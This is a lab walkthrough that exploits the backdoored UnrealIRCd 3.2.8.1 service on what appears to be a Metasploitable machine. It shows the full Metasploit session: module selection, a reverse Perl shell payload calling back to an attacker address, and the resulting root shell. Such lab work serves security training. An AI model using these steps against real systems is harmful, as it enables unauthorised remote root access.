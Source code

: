 *Exploiting Port 6667 (UnrealIRCD)

- Port 6667 has the Unreal IRCD service running, we will exploit is using a backdoor that’s available in Metasploit.

- This module exploits a malicious backdoor that was added to the Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th, 2010.



*Steps to reproduce:


# nmap -sV 192.168.0.112


- with the help of  searchsploit you can check vulnerabilities

C:\root> searchsploit UnrealIRCd   
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)           | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                         | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                              | windows/dos/27407.pl
----------------------------------------------------------------------- ---------------------------------


# first open msfconsole


msf6 > search UnrealIRCd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor                                                                                                          

msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                      it/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.0.102
RHOSTS => 192.168.0.102
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.102    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                      it/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload payload/cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.102    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                      it/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.0.114
LHOST => 192.168.0.114
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.102    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                      it/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.114    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] 192.168.0.102:6667 - Connected to 192.168.0.102:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.0.102:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.102:58671) at 2023-02-27 11:06:07 +0530

ls
Donation
LICENSE
aliases
badwords.channel.conf
badwords.message.conf
badwords.quit.conf
curl-ca-bundle.crt
dccallow.conf
doc
help.conf
ircd.log
ircd.pid
ircd.tune
modules
networks
spamfilter.conf
tmp
unreal
unrealircd.conf
whoami
root
id
uid=0(root) gid=0(root)




